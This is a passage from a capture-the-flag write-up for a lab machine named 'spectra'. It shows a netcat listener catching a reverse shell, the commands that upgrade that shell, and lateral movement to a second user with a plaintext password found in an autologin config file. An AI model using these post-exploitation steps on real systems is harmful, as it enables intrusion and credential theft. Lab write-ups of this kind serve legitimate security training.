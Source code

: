 After you upload the script you have to be listening in your local machine. And right after go to the directory where your script is.

``` bash 
sudo nc -nlvp 443
[sudo] password for oredreim:
listening on [any] 443 ...
connect to [10.10.16.29] from (UNKNOWN) [10.10.10.229] 41100
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7401P 24-Core Processor AuthenticAMD GNU/Linux
 15:48:45 up  6:56,  0 users,  load average: 0.18, 0.06, 0.01
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
$
```

Now make a good shell cause that shell is not really practical `script /dev/null -c bash`.

``` bash 
$ script /dev/null -c bash

Script started, output log file is '/dev/null'.
nginx@spectra / $
``` 

`stty raw -echo; fg` then enter, write `reset` then xterm but lets specify again the term with `export TERM=xterm` and the shell to be a bash `export SHELL=bash`.

To finish lets specify the rows and the columns to our default ones. `stty rows 51 columns 235`.

# Lateral Movement.

So. lets keep scaling privileges, cause right now we are just xginx and can not read the user.txt flag. checking the home directory looks like there is an other user named katie, lets check what we can find or do to scale to katie.

Looking in the `OPT` directory, there is an interesting file named `autologin.conf.orig`.

![[Pasted image 20210704181218.png]]

If we read the script, it say that maybe we can find something in the directory `/etc/autologin`

![[Pasted image 20210704181256.png]]

Lets see whats in there, an we see a password.

![[Pasted image 20210704181633.png]]

Lets use it to get katie user with ssh.

![[Pasted image 20210704181833.png]]

Nice! we are now katie. and we must keep watching to get root.

# Privileges Scalation.
